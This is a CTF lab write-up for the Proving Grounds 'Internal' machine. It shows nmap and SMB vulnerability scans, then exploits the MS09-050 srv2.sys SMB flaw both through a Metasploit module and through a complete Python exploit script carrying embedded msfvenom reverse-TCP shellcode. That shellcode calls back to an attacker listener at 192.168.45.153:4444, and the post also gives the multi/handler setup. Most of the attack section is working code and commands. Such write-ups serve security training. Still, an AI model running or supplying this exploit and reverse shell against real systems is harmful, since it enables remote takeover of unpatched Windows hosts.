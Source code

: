 ```yaml
---
title: "Proving grounds Practice: Internal"
layout: post
date: 2023-08-28 04:00
categories: writeup
---
```


Proving grounds Practice - Internal CTF writeup.

## Nmap

```sh
PORT      STATE SERVICE    VERSION
53/tcp    open  tcpwrapped
135/tcp   open  tcpwrapped
139/tcp   open  tcpwrapped
445/tcp   open  tcpwrapped
3389/tcp  open  tcpwrapped
5357/tcp  open  tcpwrapped
49152/tcp open  tcpwrapped
49153/tcp open  tcpwrapped
49154/tcp open  tcpwrapped
49155/tcp open  tcpwrapped
49156/tcp open  tcpwrapped
49157/tcp open  tcpwrapped
49158/tcp open  tcpwrapped
```

## SMB vulnerability scan

```sh
PORT    STATE SERVICE
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Host script results:
|_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED
|_smb-vuln-ms10-054: false
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
```
**Exploit DB**

![img](/assets/images/CTF/Proving_Grounds/Internal/exploitdb.png)

## Exploit using metasploit

```sh
msfconsole
use exploit/windows/smb/ms09_050_smb2_negotiate_func_index
set RHOSTS <target-ip>
set LHOST <local-ip>
run
```

## Exploit without metasploit

[Microsoft Windows - 'srv2.sys' SMB Code Execution (Python) (MS09-050)](https://www.exploit-db.com/exploits/40280).

[Modified working exploit](https://raw.githubusercontent.com/ohnozzy/Exploit/master/MS09_050.py).

**Create reverse shell payload**

```sh
msfvenom -p windows/shell/reverse_tcp LHOST=192.168.45.153 LPORT=4444 EXITFUNC=thread -f c
```

Add the generated shell code as below in the python file.

```py
# EDB-Note: Source ~ https://raw.githubusercontent.com/ohnozzy/Exploit/master/MS09_050.py

#!/usr/bin/python
#This module depends on the linux command line program smbclient. 
#I can't find a python smb library for smb login. If you can find one, you can replace that part of the code with the smb login function in python.
#The idea is that after the evil payload is injected by the first packet, it need to be trigger by an authentication event. Whether the authentication successes or not does not matter.
import tempfile
import sys
import subprocess
from socket import socket
from time import sleep
from smb.SMBConnection import SMBConnection


try:

    target = sys.argv[1]
except IndexError:
    print '\nUsage: %s <target ip>\n' % sys.argv[0]
    print 'Example: MS36299.py 192.168.1.1 1\n'
    sys.exit(-1)

# msfvenom -p windows/shell/reverse_tcp LHOST=192.168.45.153 LPORT=4444 EXITFUNC=thread -f c
# use exploit/multi/handler
# set payload windows/shell/reverse_tcp
# set EXITFUNC=thread 
# config lhost and lport then run

shell = ("\xfc\xe8\x8f\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b\x52"
"\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x31\xff\x0f\xb7"
"\x4a\x26\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d"
"\x01\xc7\x49\x75\xef\x52\x57\x8b\x52\x10\x8b\x42\x3c\x01"
"\xd0\x8b\x40\x78\x85\xc0\x74\x4c\x01\xd0\x8b\x58\x20\x8b"
"\x48\x18\x50\x01\xd3\x85\xc9\x74\x3c\x49\x31\xff\x8b\x34"
"\x8b\x01\xd6\x31\xc0\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75"
"\xf4\x03\x7d\xf8\x3b\x7d\x24\x75\xe0\x58\x8b\x58\x24\x01"
"\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01"
"\xd0\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x58"
"\x5f\x5a\x8b\x12\xe9\x80\xff\xff\xff\x5d\x68\x33\x32\x00"
"\x00\x68\x77\x73\x32\x5f\x54\x68\x4c\x77\x26\x07\x89\xe8"
"\xff\xd0\xb8\x90\x01\x00\x00\x29\xc4\x54\x50\x68\x29\x80"
"\x6b\x00\xff\xd5\x6a\x0a\x68\xc0\xa8\x2d\x99\x68\x02\x00"
"\x11\x5c\x89\xe6\x50\x50\x50\x50\x40\x50\x40\x50\x68\xea"
"\x0f\xdf\xe0\xff\xd5\x97\x6a\x10\x56\x57\x68\x99\xa5\x74"
"\x61\xff\xd5\x85\xc0\x74\x0a\xff\x4e\x08\x75\xec\xe8\x67"
"\x00\x00\x00\x6a\x00\x6a\x04\x56\x57\x68\x02\xd9\xc8\x5f"
"\xff\xd5\x83\xf8\x00\x7e\x36\x8b\x36\x6a\x40\x68\x00\x10"
"\x00\x00\x56\x6a\x00\x68\x58\xa4\x53\xe5\xff\xd5\x93\x53"
"\x6a\x00\x56\x53\x57\x68\x02\xd9\xc8\x5f\xff\xd5\x83\xf8"
"\x00\x7d\x28\x58\x68\x00\x40\x00\x00\x6a\x00\x50\x68\x0b"
"\x2f\x0f\x30\xff\xd5\x57\x68\x75\x6e\x4d\x61\xff\xd5\x5e"
"\x5e\xff\x0c\x24\x0f\x85\x70\xff\xff\xff\xe9\x9b\xff\xff"
"\xff\x01\xc3\x29\xc6\x75\xc1\xc3\xbb\xe0\x1d\x2a\x0a\x68"
"\xa6\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a\x80\xfb\xe0\x75"
"\x05\xbb\x47\x13\x72\x6f\x6a\x00\x53\xff\xd5")

host = target, 445

buff ="\x00\x00\x03\x9e\xff\x53\x4d\x42"
buff+="\x72\x00\x00\x00\x00\x18\x53\xc8"
buff+="\x17\x02" #high process ID
buff+="\x00\xe9\x58\x01\x00\x00"
buff+="\x00\x00\x00\x00\x00\x00\x00\x00"
buff+="\x00\x00\xfe\xda\x00\x7b\x03\x02"
buff+="\x04\x0d\xdf\xff"*25
buff+="\x00\x02\x53\x4d"
buff+="\x42\x20\x32\x2e\x30\x30\x32\x00"
buff+="\x00\x00\x00\x00"*37
buff+="\xff\xff\xff\xff"*2
buff+="\x42\x42\x42\x42"*7
buff+="\xb4\xff\xff\x3f" #magic index
buff+="\x41\x41\x41\x41"*6
buff+="\x09\x0d\xd0\xff" #return address

#stager_sysenter_hook from metasploit

buff+="\xfc\xfa\xeb\x1e\x5e\x68\x76\x01"
buff+="\x00\x00\x59\x0f\x32\x89\x46\x5d"
buff+="\x8b\x7e\x61\x89\xf8\x0f\x30\xb9"
buff+="\x16\x02\x00\x00\xf3\xa4\xfb\xf4"
buff+="\xeb\xfd\xe8\xdd\xff\xff\xff\x6a"
buff+="\x00\x9c\x60\xe8\x00\x00\x00\x00"
buff+="\x58\x8b\x58\x54\x89\x5c\x24\x24"
buff+="\x81\xf9\xde\xc0\xad\xde\x75\x10"
buff+="\x68\x76\x01\x00\x00\x59\x89\xd8"
buff+="\x31\xd2\x0f\x30\x31\xc0\xeb\x31"
buff+="\x8b\x32\x0f\xb6\x1e\x66\x81\xfb"
buff+="\xc3\x00\x75\x25\x8b\x58\x5c\x8d"
buff+="\x5b\x69\x89\x1a\xb8\x01\x00\x00"
buff+="\x80\x0f\xa2\x81\xe2\x00\x00\x10"
buff+="\x00\x74\x0e\xba\x00\xff\x3f\xc0"
buff+="\x83\xc2\x04\x81\x22\xff\xff\xff"
buff+="\x7f\x61\x9d\xc3\xff\xff\xff\xff"
buff+="\x00\x04\xdf\xff\x00\x04\xfe\x7f"
buff+="\x60\x6a\x30\x58\x99\x64\x8b\x18"
buff+="\x39\x53\x0c\x74\x2b\x8b\x43\x10"
buff+="\x8b\x40\x3c\x83\xc0\x28\x8b\x08"
buff+="\x03\x48\x03\x81\xf9\x6c\x61\x73"
buff+="\x73\x75\x15\xe8\x07\x00\x00\x00"
buff+="\xe8\x0d\x00\x00\x00\xeb\x09\xb9"
buff+="\xde\xc0\xad\xde\x89\xe2\x0f\x34"
buff+="\x61\xc3\x81\xc4\x54\xf2\xff\xff"

buff+=shell

s = socket()
s.connect(host)
s.send(buff)
s.close() 
#Trigger the above injected code via authenticated process.
subprocess.call("echo '1223456' | rpcclient -U Administrator %s"%(target), shell=True)
```

### Troubleshoot smb.SMBConnection

The code is writtent in python2 and there will be an exception due to the `pysmb` module not present in the system. In order to resolve the issue follow the below steps:

- Download manually from [https://miketeo.net/blog/projects/pysmb](https://miketeo.net/blog/projects/pysmb).
- Use unzip to extract and run the `setup.py` file using python2.
- Post that install the dependencies if any is missing in your system based on the exception thrown while running the file.
- Ensure the dependency packages are being installed using pip2.

**Run msfconsole**

Run msfconsole and configure the below options.

```sh
use exploit/multi/handler
set payload windows/shell/reverse_tcp #payload important it should be same as our shellcode payload
set EXITFUNC thread
set LHOST <IP>
set LPORT <PORT>
run
```

Run the exploit code along with the target IP and wait for few seconds.

![img](/assets/images/CTF/Proving_Grounds/Internal/shell.png)

Reverse shell obtained.

Thanks for reading!

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).